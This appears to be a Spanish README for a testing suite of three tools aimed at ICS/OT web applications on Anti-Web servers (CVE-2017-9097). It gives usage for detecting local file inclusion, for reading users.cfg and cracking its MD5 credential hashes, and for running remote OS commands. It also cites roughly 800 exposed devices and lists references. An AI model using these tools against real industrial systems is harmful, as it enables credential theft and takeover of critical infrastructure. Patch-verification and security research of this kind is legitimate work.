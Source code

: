 # ICS/OT AntiWeb: Testing Suite

## Introducción 
Una vulnerabilidad ha sido encontrada en aplicaciones web asociadas a ICS/OT que corren sobre servidores [Anti-Web](https://github.com/hoytech/antiweb/) (hasta su version 3.8.7).
La vulnerabilidades que se han identificado  afectan a varios fabricantes de renombre en la industria de la automatización de procesos industriales y telecomunicaciones. Estos devices ya cuentan con dos similares y viejos CVEs (CVE-2010-4730 & CVE-2010-4733) a lo que luego de reportar consiguió un tercero CVE (2017-9097) e inmediatamente el vendor lanzó un parche. En inmediatamente siguieron otros. 

Para tener una referencia aproximada del grado de exposición con la que cuentan esto dispositivos nos valemos de los host que se encuentran indexados en Shodan, siendo estos un poco mayor de 800 devices potencialmente vulnerables. 

![SHODAN](screenshot/shodanSearch.png)

Con respecto al LFI que nuestra tool procura de explotar, hoy los distintos vendors afectados ya cuentan con sus respectivos parche oficiales que contrarresta la vulnerabilidad. Por lo que de alguna forma el intentar explotar el fallos viene a corroborar el compromiso de los operadores y responsables de estas tecnologías, respondiendo a una pregunta fundamental: "Se habrán instalado los parches correspondientes?" 

# Tres tools:
Una de las primeras herramientas procura explotar y corroborar la existencia de un LFI. Una segunda herramienta tratara de sacarle partido al LFI, tomando el archivo en donde se guardar las credenciales que dan acceso al panel web. El donde los usernames están en plano y las passwords están hasheadas con md5 que la herramienta tratara de romper.
y finalmente una última herramienta que explotara un RCE. 

# Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/AntiWeb_testing-Suite

***
	usr@pwn:~$ cd AntiWeb_testing-Suite
	usr@pwn:~$ ls -l 
	total 16
	drwxr-xr-x 4 root root 4096 sep 14 21:05 LFI
	drwxr-xr-x 4 root root 4096 sep 14 21:05 RCE
	-rwxrwxr-x 1 root root 1852 sep 24 08:42 README.md
	drwxr-xr-x 3 root root 4096 sep 24 08:00 seekAndDestroy
***


# Tool [1]: "Anti-web" 
### Introducción
Simplemente corrobora la existencia del LFI, consultando unos paths predefinidos y / o dandole la posibilidad al usuario de pasar su propio path.

Opcionalmente uno podra pasarle una cookie de session (valida).

### Uso:

 	usr@pwn:~$ python anti-web-v1.py --help
	usage: anti-web.py [-h] [-v] --host HOST [--port PORT] [--file LFI]

	[+] CVE: CVE-2017-9097

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    host
	  --port PORT    Set port (default = 80)
	  --file LFI     Test LFI
	  -ck COOKIE     Set Cookie


	[+] Demo: anti-web.py --host 192.168.1.100 --port 80

![CVE-2017-9097](screenshot/POC_LFI.png)





# Tool [2]: "Seek And Destroy"
### Introducción.
Esta Herramienta procura dale un buen uso al LFI. Para lo cual apunta al archivo "/home/config/users.cfg" en donde se encuentras las credencias que permiten el acceso a la aplicacion web. 

![CVE-2017-9097](screenshot/POC_LFI_2.png)

"Seek And Destroy", Parsea este archivo, Identifica el hash que corresponde a la concatenacion del password y su usuario pasado a la funcion de hash Md5.
Con listas precalculadas, se iran descubriendo que se esconde detras de estos hashes. 


![breaking_the_hash](screenshot/breaking_the_hash.png)

Se podra atacar individualmente un solo host o una lista de estos

### Uso:

	usr@pwn:~$ python seekAndDestroy.py --help
	usage: seekAndDestroy.py [-h] [-v] [--host HOST] [--list HOST_LIST]
	                         [--port PORT]

	[+] Obtain and break the credentials of your industrial control system .

	optional arguments:
	  -h, --help        show this help message and exit
	  -v, --version     show program's version number and exit
	  --host HOST       host
	  --list HOST_LIST  hosts
	  --port PORT       set port (default = 80)

	[+] Usage: seelAndDestroy.py --list host_list.txt --port 8080




# Tool [3]: "Remote Command Execution": 
### Introducción
Y llegamos a lo que tal vez sea la mas interesante, la posibilidad de ejecutar comandos del sistema operativo del hardware que soporta el sistema vulnerable. 
	 *** "Del Http a la Shell"  ***


![RCE](screenshot/rce-ps.png)
.
![RCE](screenshot/rce-ifconfig.png)


	#### continuara... (mañana es lunes. xd)



### Uso:

	usr@pwn:~$ python rce.py --help
	usage: RCE.py [-h] [-v] --host HOST [--port PORT] -ck COOKIE --cmd COMMAND

	[+] COMMANDS over your industrial control system .

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port
	  -ck COOKIE     Cookie
	  --cmd COMMAND  Command

	[+] Demo: python rce.py --host <host> -ck <sessionCookie> --cmd "ls -la /"

## Demo

	....Wait



***
# Rerefencias externas:
	* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9097
	* https://ics-cert.us-cert.gov/advisories/ICSA-17-222-05

	* https://www.seebug.org/vuldb/ssvid-96555 (RCE)
	* https://www.seebug.org/vuldb/ssvid-96556 (LFI)

	* https://vuldb.com/es/?id.102570
	* https://github.com/hoytech/antiweb/
	* https://nvd.nist.gov/vuln/detail/CVE-2017-9097
	* https://www.9165619.com/vulnerability/cve-2017-9097-89702 
	* http://old.cnnvd.org.cn/vulnerability/show/cv_id/2017051027
	* http://jvndb.jvn.jp/ja/contents/2017/JVNDB-2017-005240.html

	* http://plugins.openvas.org/nasl.php?oid=106886 				(*down)
	* http://webcache.googleusercontent.com/search?q=cache:Z1VaYjaZLB4J:plugins.openvas.org/nasl.php%3Foid%3D106886+&cd=1&hl=es-419&ct=clnk&gl=cl

# otros CVE
'''
	[+] CVE-2009-4462  (  Intellicom NetBiterConfig.exe )
	[+] CVE-2009-4463  (  Intellicom NetBiterConfig.exe )
		http://blog.48bits.com/exposing-hms-hicp-protocol-0day-light/


	[+] CVE-2010-4730 ( Directory 		traversal vulnerability in cgi-bin/read.cgi in WebSCADA )
	[+] CVE-2010-4731 ( Absolute path 	traversal vulnerability in cgi-bin/read.cgi in WebSCADA )
	
	[+] CVE-2010-4732 ( RCE, using a config.html 2.conf action to replace the logo page's GIF image file )

	[+] CVE-2010-4733 ( default username and password to obtain superadmin access via the web interface )
		
		Intellicom NetBiter products based on the NB100 and NB200 platforms, including:
		WebSCADA (WS100)
		WebSCADA (WS200)
		Easy Connect (EC150)
		Modbus RTU – TCP Gateway (MB100)
		Serial Ethernet Server (SS100).
		
		* https://ics-cert.us-cert.gov/advisories/ICSA-10-316-01A
'''

***

Las herramientas en cuestión están en (AntiWeb_testing-Suite):
https://github.com/ezelf/AntiWeb_testing-Suite/


Video que combina las tres tools en su primera version beta:
https://www.youtube.com/watch?v=HdkZA1DO08Y

 

